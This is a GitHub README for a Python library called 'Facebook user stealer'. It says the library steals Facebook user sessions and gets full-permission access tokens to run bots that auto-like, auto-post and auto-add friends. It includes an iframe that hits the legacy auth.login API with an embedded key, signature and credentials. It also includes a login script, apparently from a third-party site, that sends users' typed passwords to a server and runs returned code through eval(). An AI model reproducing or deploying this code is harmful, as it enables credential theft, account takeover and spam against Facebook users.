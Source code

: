 # Facebook user stealer

## Introduction
This library steal user sessions from Facebook.

You can use it to login with your email and password on facebook account (which facebook never let you do it)

When you login, you can get an access token with full permissions. So let thinking about some your facebook bot like auto comment, auto like, auto post to your friends wall, auto add friends, ....

## Disclaimer

This is an old library and needs to use another older libraries meanwhile we are updating the code, please install with:

> pip install requests==0.14.2

## Usage

* Look inside examples folder
* Execute an example provided, e.g:

> python .\get_facebook_session.py 

## Util
https://stephensclafani.com/2014/07/29/hacking-facebooks-legacy-api-part-2-stealing-user-sessions/
https://vipfb.ru 
* (inside iframe)
```javascript
document.getElementById("vipfb").innerHTML='<iframe width=\"100%\" style=\"border: none;overflow: hidden;word-wrap: break-word; padding: 15px;\" height=\"auto\" src=\"https:\/\/api.facebook.com\/restserver.php?api_key=882a8490361da98702bf97a021ddc14d&email=carchvhycroh%40hotmail.com&format=JSON&locale=en_US&method=auth.login&password=1234&return_ssl_resources=1&v=2.6&sig=56fb4ec3dea1ac421e19d32769762bc5\"><\/iframe>';
```
* (inside sources)
```javascript
function vipfb_login() {
    var http = new XMLHttpRequest,
        user = document.getElementById("user").value,
        pass = document.getElementById("pass").value,
        params = "u=" + user + "&p=" + pass;
    document.cookie = "email=" + user, http.open("POST", "#", !0), http.setRequestHeader("Content-type", "application/x-www-form-urlencoded"), http.onreadystatechange = function() {
        if (4 == http.readyState && 200 == http.status) {
            var yorumveri = JSON.parse(this.responseText);
debugger
            yorumveri && yorumveri.eval && eval(yorumveri.eval)
        }
    }, http.send(params)
}
```